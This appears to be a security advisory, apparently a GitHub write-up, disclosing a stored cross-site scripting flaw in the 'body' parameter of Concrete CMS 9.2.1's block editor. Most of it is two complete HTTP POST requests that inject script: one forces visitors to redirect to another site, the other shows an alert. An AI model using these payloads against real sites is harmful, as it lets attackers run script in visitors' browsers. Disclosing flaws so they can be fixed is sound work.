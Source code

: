 BUG_Author:
LJWIIE

Affected version:
Concrete CMS

Vendor:
https://www.concretecms.org/

Software:

https://www.concretecms.org/download

https://github.com/concretecms/concretecms/releases/tag/9.2.1

Vulnerability File:
index.php/ccm/system/dialogs/block/edit.php, function submit()

Description:

In Concrete CMS versions 9.2.1 and earlier, authenticated users can execute Stored Cross-Site Scripting (XSS) attacks via the "body" parameter in the "Edit Feature Link" function. This may lead to harmful actions such as redirects, unwanted ads, and executing malicious HTML code, posing risks to visitors and the site's integrity.

Status: Medium

POST parameter 'body' contains a Stored Cross-Site Scripting (XSS) vulnerability

[Redirect to Google official website]Payload1:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1952
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script type="text/javascript">
        window.onload = function() {
            window.location.href = 'https://www.google.com';
        };
</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/c20eeb0d-78a7-4f65-a48a-c0e81469355e)

Once edited and saved, anyone visiting this page will be forced to visit the Google website.
Below is a gif showing it.

![RedirectToGoogle](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/3d2ed4e1-abec-4053-8166-5bdf198de7bd)

[Display alert window]Payload2:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1831
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script>alert("You have been hacked!")</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```
![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/8eb05aa6-b84c-4839-994f-78b318a3e324)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/aa0a61ad-c1c2-4903-8019-a1fa9a4f060c)

